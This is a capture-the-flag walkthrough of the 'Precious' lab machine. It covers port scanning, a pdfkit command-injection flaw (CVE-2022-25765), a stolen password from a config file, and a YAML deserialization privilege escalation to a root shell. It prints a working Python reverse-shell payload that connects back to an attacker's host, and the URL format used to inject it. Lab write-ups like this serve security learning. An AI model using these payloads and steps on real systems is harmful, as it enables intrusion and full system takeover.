## PRECIOUS (Easy)

### Enumeration
#### Port Recon
Nmap quick scan. 
`nmap TragetIP`

![quickscan](https://user-images.githubusercontent.com/115337317/213096376-0ff4daa1-1c20-458d-b4af-fc72dec88e8e.png)

Lets enumerate more about these ports. `nmap -sV -sC TragetIP -p22,80`

![svscscan](https://user-images.githubusercontent.com/115337317/213096549-b39319f0-11cd-4b65-97c4-d3b4cb48c9e1.png)

So, now we know that a nginx server is running on port 80 and ssh on 22. But before checking the website we can see in our scan when its scanning port 80 it unable to follow the redirect  which means we need to add "precious.htb" in our /etc/hosts file. 
`sudo nano /etc/hosts`

![image](https://user-images.githubusercontent.com/115337317/213097528-ac7c4243-18f1-41ca-95cd-40e719729d5f.png)

Like this. Now can we access target url 'http://precious.htb'.

![sitess](https://user-images.githubusercontent.com/115337317/213097741-d46e52ec-488f-4281-ac35-e098f8b3d0a6.png)

web page look like this. first thing whenever we are working with web application which we need to explore the application first before running attacks or anything because its give us a idea how that application works and which type of attack I can use.

By Exploring the web application I get to know that this application takes a url and convert that site into pdf but It will not take any random website from internet so I tried I setup a local website using python simple server using this command `python -m http.server 8000`. This command setup a simple python development server in our cureent directory.

![startserver](https://user-images.githubusercontent.com/115337317/213098908-f232ba54-cf56-4ecb-b901-8f9ed832f290.png)

When I tried this it successfully converted that webapge into pdf.

![webpdf](https://user-images.githubusercontent.com/115337317/213099516-10390aa5-05f9-4fc4-b268-828d3fabcb7e.png)

Now, we explored the website so we know that this is a simple web app which converts webpages into pdf.

#### Web recon
I tried to run few attacks like directory enumeration and all but find nothing in them. Their is no interseting file and page on the web.

** After trying diffrent attacks I decided to enumerate the pdf file which webapp is converting.
#### Analyzing pdf file
I am using exiftool to see but there are more tools like this to check metadata of file. `exiftool filename` 

![pdfaly](https://user-images.githubusercontent.com/115337317/213100415-25078f33-68aa-4a6b-9956-eaf2cfe7d24d.png)

So we can see this file is converted by pdfkit v0.8.6. After doing simple search like `pdfkit v0.8.6 exploits` on google I found that this version of pdfkit is vulnerable to os injection (CVE-2022-25765).  source:https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795


Now we know how to exploit this machine so get a revshell using netcat payload.set up a listner using `nc -lvp 8888`

![tryingpayload](https://user-images.githubusercontent.com/115337317/213106034-c0fd08f9-24eb-41c5-9539-12708ebff1b0.png)

Payload : `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("Your IP",your PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'` 

URL: "your-python-server/?name=%20`Payload`"

After sumbmitting the url we get our reverse shell successfully.

![getingrevshell](https://user-images.githubusercontent.com/115337317/213106366-0df4441f-b9a0-448b-9178-e11554896fe3.png)

Now stablize the shell.Steps to stabilize shell.

![stablizeshel](https://user-images.githubusercontent.com/115337317/213108113-48e4a230-1c99-430a-8dad-0d97221a5d59.png)


Perform some basic enumeration first like checking `whoami` and checking the user directory to find something uesful.
I also performed these steps. We get reverse shell as user ruby and on checking the home directory I find there are two users henry and ruby after checking there directories we find that user.txt in henry's dir. Now we need to be henry  to read the file. But while enumerating ruby dir I found an ineterseting folder called ".bundle" in which there's a file named config in that file we have password of henry. 

![henrycred](https://user-images.githubusercontent.com/115337317/213107643-498a7701-0d65-4f88-8330-97390dd03fee.png)

try to login switch user `sudo su henry` put password. We got our first flag.

![usertxt](https://user-images.githubusercontent.com/115337317/213109137-549e0cba-910a-4fbe-8070-86df1cb259ee.png)

Now we need to escalate our privilages to read root.txt.
### Privilage escalation

First we check that do we have any file to run as root. using `sudo -l` we got that

![sudol](https://user-images.githubusercontent.com/115337317/213109643-18c3a270-e85b-49a3-a60d-1e6ae8baf894.png)

checking the file /opt/update_dependencies.sh. this file loading a file from henry's home dir denpendencies.yml

![updatedep](https://user-images.githubusercontent.com/115337317/213109901-478d8e9c-c87b-438f-b424-5fdc50bcafa1.png)

Looking over the code, we see that it uses YAML.load, which is vulnerable to deserialization attack. You can read more about YAML deserialization attacks here: github.com/DevComputaria/KnowledgeBase/blob.
In order for our remote code execution to work, we will need to craft a payload inside a yml file called dependencies.yml. Using the above link, I created the file below on the server, changing the git_set to id:


Reading dependencies.yml file.

![chekcingdepfile](https://user-images.githubusercontent.com/115337317/213110689-36d2b2ae-150f-418e-8d5e-932e6345d382.png)

Let's run the file and see how it works.

![runningthefile](https://user-images.githubusercontent.com/115337317/213111201-ae9e20f9-b60d-40ef-afa9-06ccb92174c2.png)

Our remote code execution worked! Now let’s see if we can change the permissions of the /bin/bash directory so that we can elevate our privileges. Edit your update_dependencies.rb file to change permissions of /bin/bash.

![runingfileagain](https://user-images.githubusercontent.com/115337317/213111372-047cab52-cc0e-4f9c-9d08-17d67057691b.png)

It run successfully.Run a simple command `/bin/bash -p` to root shell.

![gotrootshell](https://user-images.githubusercontent.com/115337317/213111561-510e7052-16ec-4b0c-b868-a070c25dbbfa.png)

Get our final flag root.txt.

![rootxt](https://user-images.githubusercontent.com/115337317/213111587-d64ec72b-03b0-4515-8b2d-4b569e11927d.png)



Keep working hard on your skill. :)

